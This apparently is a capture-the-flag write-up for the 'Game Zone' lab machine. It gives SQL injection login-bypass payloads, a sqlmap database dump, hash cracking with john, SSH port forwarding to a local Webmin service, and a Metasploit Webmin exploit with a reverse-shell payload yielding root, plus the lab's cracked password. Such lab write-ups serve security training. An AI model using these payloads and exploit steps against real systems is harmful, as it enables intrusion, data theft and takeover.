


game zone
Game Zone
What is the name of the image ?
Agent47
Open the Webserver at 10.10.169.69
We will first use manual sql injection to login.
SELECT * FROM users WHERE username = admin AND password := ' or 1=1 -- -
OR
SELECT * FROM users WHERE username = ' or 1=1 -- -
OR
SELECT * FROM users WHERE username = admin AND password := ' or 1=1 #
OR
SELECT * FROM users WHERE username = ' or 1=1 #
We successfully logged in with blank username.
In the next page we face a game search page.
We start burpsuite and capture a test request
Then save it to request.txt for further usage by sqlmap
In part 2, we enumerate the search page with sqlmap.
sqlmap -r request.txt --dbms=mysql --dump
Here we have 2 options to use inbuilt password cracking. (use custom wordlist of rockyou.txt and crack the hash).
Or
after sqlmap running is done, we go to the temporary hash location which sqlmap created.
Then crack it using john
Once we have the password we can ssh into the machine to get user flag
Privelege Escalation
ss -tulpn
To check socket information on target machine. We find CMS app webmin running on localhost.
We use SSH Reverse tunneling to access the app from our Kali machine browser.
ssh -L 9999:localhost:10000 agent47@10.10.169.69
Then we open mozilla and go to localhost:9999
we get to the CMS App webpage.
We login with agent47 and videogamer124
We discover the App version as Webmin 1.580
searchsplit webmin 1.580

We use metasploit console.
use exploit/unix/webapp/webmin_show_cgi_exec
we tried different payloads.(Almost all)
show payloads : Will show compatible payload for the exploit.
Following is the working Payload and option configuration:
use payload cmd/unix/reverse
Options:

Note: Change these as per the image above RHOSTS,RPORT,PASSWORD,USERNAME,LHOST,LPORT,SSL
Once we run this we get a shell as root.
We get the root flag in /root directory.
Thanks !!